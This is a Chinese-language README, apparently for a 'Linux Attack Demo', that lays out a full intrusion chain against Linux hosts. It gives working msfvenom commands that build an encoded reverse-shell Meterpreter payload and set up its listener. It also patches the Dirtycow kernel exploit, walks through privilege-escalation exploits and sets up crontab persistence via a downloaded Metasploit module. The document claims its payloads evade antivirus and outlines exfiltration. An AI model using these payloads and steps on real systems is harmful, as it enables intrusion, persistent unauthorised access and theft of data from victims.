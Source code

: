 ## Linux Attack Demo说明与操作

#### 一. 工具与依赖 

1. **系统**

   - Kali Linux, Parrot Linux, 其他Linux发行版也可。

2. **工具**

   - Exploit, Payload & Backdoor
   > [Metasploit Framework](https://github.com/rapid7/metasploit-framework)
   > [TheFatRat](https://github.com/Screetsec/TheFatRat)
   > [Veil](https://github.com/Veil-Framework/Veil)
   > [Azazel](https://github.com/chokepoint/azazel)
   
   -  Privilege Escalation
   > [Dirtycow](https://github.com/gbonacini/CVE-2016-5195)  (Linux kernel>2.6.22 (released in 2007), centos7.2, ubuntu 14.04)
	> [overlayfs](https://www.exploit-db.com/exploits/37292) (Linux kernel3.13-3.19、4.33， ubuntu14.04)
   > [Setuid 'ptrace_scope'](https://www.exploit-db.com/exploits/46989) (centos7.6)

   *  Persistence
   >[crontab](https://github.com/r00t-3xp10it/msf-auxiliarys/wiki/Linux-Persistence-%5Bpost-exploitation%5D)

#### 二. 攻击流程
![攻击流程图](https://raw.githubusercontent.com/songnezha/pictures/master/linux attack.jpg)

  1. **Gaining Access** 
	
	>- 省略ip扫描、端口扫描和嗅探等操作，默认已经获得目标端主机信息。
	>- 通过两种方式对目标端其进行Exploit，一是利用目标主机系统或软件中的backdoor，二是通过社会工程学在目标端上放置内有payload的文件或程序。
	>- 当有以上措施后，可在攻击端监听，利用backdoor或payload返回reverse shell.
	>- 制作payload的工具有msfvenom, TheFatRat, Veil-Evasion(windows)，其中Veil-Evasion制作的payload在测试中可以bypass所有Antivirus。
	>
	>```c
	>  //msfvenom
	>  msfvenom --platform linux -p linux/x64/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 20 lhost 192.168.1.1 lport 4444 -f elf > exploit.elf
	>  
	>  //metasploit 
	>  use exploit/multi/handler
	>  set payload linux/x64/meterpreter/reverse_tcp
	>  set lhost 192.168.1.1
	>  set lport 4444
	>  exploit //get reverse meterpreter shell
	>  ```
	>  
	
2. **C&C**
	
	>- Remote File Copy
	>   
	>   - scp
	>	- rsync
	>	- sftp
	>- Commonly Used Port
    >	- 攻击端利用常用端口进行通信，以绕过防火墙或网络检测系统，并通过与正常的网络活动相结合来避免更详细的检测。
   >     >TCP：80（HTTP）
   >     >TCP：443（HTTPS）
   >     >TCP：25（SMTP）
   >     >TCP / UDP：53（DNS）

3. **Lateral Movement**

   > - Remote File Copy

4. **Privilege Escalation**

   > - Kernel Exploits
   > 	- Dirtycow：利用Linux 内核的内存子系统在处理写时拷贝（Copy-on-Write）时存在的条件竞争漏洞破坏私有只读内存映射，造成可以重写/etc/passwd，从而改变root用户名和密码。上面的github代码中存在持久化漏洞，需在120-121行间添加：
   > 	
   > 	  ```cpp
   > 	  //between line 120 and 121
   > 	  close(fpsm);
   > 	  ```
   > 	
   > 	- overlayfs：利用ubuntu在上层文件系统目录中创建新文件时没有正确检查文件权限，使用户拥有管理员权限。
   > 	
   > 	- Setuid 'ptrace_scope'：利用Linux系统中sudo的实效性，通过ptrace和gdb实现对其他shell的注入，对/bin/bash拷贝的副本进行chmod +s 操作，并由此启动一个root shell，，使原shell获得root权限。
   
5. **Defence Evasion**

   > - process injection
   >   - meterpreter migrate 'id'

6. **Persistence**

   > - Local Job Scheduling
   >
   >   - crontab
   >
   >     ```c
   >       //download metasploit post-module
   >       wget https://raw.githubusercontent.com/r00t-3xp10it/msf-auxiliarys/master/linux/kali_initd_persistence.rb
   >       
   >       //copy module to metasploit database
   >       path=$(locate modules/post/linux/manage | grep -v '\doc' | grep -v '\documentation' | head -n 1)
   >       sudo cp kali_initd_persistence.rb $path/kali_initd_persistence.rb
   >       
   >       //start postgresql
   >       sudo service postgresql start
   >       
   >       //rebuild msfdb database
   >       sudo msfdb reinit
   >       
   >       //reload kali_initd_persistence into msfdb
   >       sudo msfconsole -x 'db_status;reload_all;exit -y'
   >       
   >       //start multi-handler to recive the connection......
   >       
   >       //load post-module and config it
   >       meterpreter > background
   >       msf5 exploit(multi/handler) > search initd
   >       msf5 exploit(multi/handler) > use post/linux/manage/kali_initd_persistence
   >       msf5 post(linux/manage/kali_initd_persistence) > info
	>       msf5 post(linux/manage/kali_initd_persistence) > show advanced
   >       msf5 post(linux/manage/kali_initd_persistence) > set CRONTAB true
   >       msf5 post(linux/manage/kali_initd_persistence) > set REMOTE_PATH 'payload'
   >       msf5 post(linux/manage/kali_initd_persistence) > show advanced options
   >       msf5 post(linux/manage/kali_initd_persistence) > exploit
   >     ```
   >
   > - systemd service
   >   
   >   - 攻击者通过使用systemd创建或修改service文件，从而建立对目标端的持久访问，这些文件使systemd以重复的间隔执行恶意命令，如在系统启动时。
   
7. **Pilfering（Collection）**

   > - Data from Local System/Network Shared Drive
   >
   > - Audio/Video/Screen/Input Capture
   
8. **Exfiltration**

   > - Data Compressed
   > - Data Encrypted

   
